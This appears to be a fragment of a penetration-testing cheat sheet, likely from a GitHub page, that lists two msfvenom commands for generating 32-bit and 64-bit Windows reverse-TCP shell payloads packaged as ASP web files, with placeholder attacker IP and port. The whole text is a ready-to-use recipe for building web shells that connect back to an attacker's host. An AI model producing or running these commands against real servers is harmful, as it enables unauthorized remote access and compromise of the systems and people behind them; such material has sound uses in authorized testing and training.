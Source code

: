 # ASP

- x86 (32-bit) Payloads

`$ msfvenom -p windows/shell/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x86.asp`

- x86_64 (64-bit) Payloads

`$ msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x64.asp`